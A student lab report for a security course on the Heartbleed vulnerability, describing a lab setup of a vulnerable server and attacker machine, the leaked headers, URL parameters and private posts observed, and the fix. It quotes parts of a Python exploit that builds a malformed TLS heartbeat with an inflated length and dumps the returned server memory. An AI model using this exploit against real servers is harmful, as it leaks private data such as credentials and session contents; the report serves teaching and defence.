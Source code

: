 # Lab8 for CS315

## Some info...

Author: 11711918 吴烨昌

## Tasks

You need to submit a detailed lab report, with screenshots, to describe what you have done and what you have observed. You also need to provide explanation to the observations that are interesting or surprising. Please also list the important code snippets followed by explanation. Simply attaching code without any explanation will not receive credits.

What I have done:

1. Set up server enviroment (behind NAT)

![image-20201112202012667](image-20201112202012667.png)

2. Set up attacker enviroment (with attack.py, set ip in hosts)

   ![image-20201112202113603](image-20201112202113603.png)

3. After some requests, attack.py run out some http header like pieces.

   ![image-20201112202301318](image-20201112202301318.png)

4. After some requests, attack.py fetch some http requests having sensetive url params.

   ![image-20201112202347971](image-20201112202347971.png)

5. Get some private posts:

   ![image-20201112202724524](image-20201112202724524.png)



How it works: the Heartbleed attack is based on the Heartbeat request. This request just sends some data to the server, and the server will copy the data to its response packet, so all the data are echoed back. 



With length decreasing, it's noticed that at 22 a malformed response is returned, less than expected.

![image-20201112203149414](image-20201112203149414.png)



After upgrading, no more bytes is returned. It always returns ".F" now.



```python
def build_heartbeat(tls_ver):

    heartbeat = [

0x18,       # Content Type (Heartbeat)

0x03, tls_ver,  # TLS version

0x00, 0x29,  # Length

# Payload

0x01,       # Type (Request)

opts.len/256, opts.len%256,  # Payload length

0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41,

0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41,

0x41, 0x41, 0x41, 0x41, 0x41, 0x42, 0x43, 0x44,

0x45, 0x46, 0x47, 0x48, 0x49, 0x4A, 0x4B, 0x4C,
```

use `build_heartbeat` to construct malicious heartbeat packet that has length longer than actual payload length, which will indicating server to return more data in memory.

``` python
def rcv_tls_record(s):

    print 'Analyze the result....'

    try:

        tls_header = s.recv(5)

        if not tls_header:

            print 'Unexpected EOF (header)' 

            return None,None,None        

        typ,ver,length = struct.unpack('>BHH',tls_header)

        message = ''

        while len(message) != length:

            message += s.recv(length-len(message))

        if not message:

            print 'Unexpected EOF (message)'

            return None,None,None

        if opts.verbose:

	        print 'Received message: type = {}, version = {}, length = {}'.format(typ,hex(ver),length,)

        return typ,ver,message

    except Exception as e:

        print "\nError Receiving Record! " + str(e)

        return None,None,None


def hit_hb(s, targ, firstrun, supported):

    s.send(hex2bin(build_heartbeat(supported)))

    while True:

        typ, ver, pay = rcv_tls_record(s)

        if typ is None:

            print 'No heartbeat response received, server likely not vulnerable'

            return ''

        if typ == 24:

            if opts.verbose:

                print 'Received heartbeat response...'

            if len(pay) > 0x29:

                if firstrun or opts.verbose:

                    print '\nWARNING: ' + targ + ':' + str(opts.port) + ' returned more data than it should - server is vulnerable!'

                if opts.rawoutfile:

                    rawfileOUT.write(pay)

                if opts.extractkey:

                	return pay

                else:

	                return hexdump(pay)

            else:

                print 'Server processed malformed heartbeat, but did not return any extra data.'
```

`rcv_tls_record` will return unpacked server returned data. if the length of returned data is more than expected ( or as expected ?), there is heartbleed exploit on the server. 



Making sure that the length in the request is smaller than the length of the payload before responsing can fix this problem.

And: 

>  Alice thinks the fundamental cause is missing the boundary checking during the buffer copy; Bob thinks the cause is missing the user input validation; Eva thinks that we can just delete the length value from the packet to solve everything.

They are all right. Any one of these 3 ways can fix heartbleed problem. Though length is reserved to archive some features.